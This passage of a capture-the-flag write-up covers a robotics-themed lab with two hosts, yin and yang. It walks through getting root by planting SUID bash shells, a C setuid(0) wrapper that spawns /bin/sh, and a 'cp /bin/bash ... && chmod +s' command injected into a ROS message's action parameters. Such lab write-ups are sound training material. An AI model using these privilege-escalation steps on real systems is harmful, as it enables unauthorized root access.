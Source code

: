 ```python
if __name__ == '__main__':
    try:
        yin = Yin()
        yin.run_yin()

    except rospy.ROSInterruptException:
        pass
```

Now we successfully made a SUID shell.

```terminal
yin@ip-10-10-154-73:~/catkin_ws/src/yin/scripts$ ls ~
bash  catkin_ws  where-to-find-yang.txt  yang.txt
```

So I now am root on yin and can print the flag.

```terminal
bash-5.0# cat yin.txt 
THM{Yin.################################################.Yang}
```

The next thing to hack yang is to upgrade my SUID shell to a better shell I used this program to set not only the `euid` but the `uid` to 0.
```c
#include <unistd.h>
int main() {
    setuid(0); // Sets the real and effective UID to root
    execl("/bin/sh", "sh", NULL);
    return 0;
}
```
{: file='real.c'}

If you compile it with `gcc real.c -o real` and then execute it as root you will get the right suid you can now run `/bin/bash` and edit the `/catkin_ws/src/yin/scripts/runyin.py` file.

## Break Yang

You need to modify these lines inside the `craft_ping()` function:
```python
[...]
        # message.actionparams = ['touch /home/yang/yin.txt']
        # to something like
        message.actionparams = ['cp /bin/bash /home/yang/bash && chmod +s /home/yang/bash']
[...]
```

Then restart both nodes and you should get a SUID shell on yang.
```terminal
yang@ip-10-10-97-42:~$ ls
bash  yin.txt
```

Finally you can retrieve the flag.
```terminal
bash-5.0# cat yang.txt 
THM{Yang.################.su#####}
```

I really liked this challenge and that you need to forge a whole application to get the flag.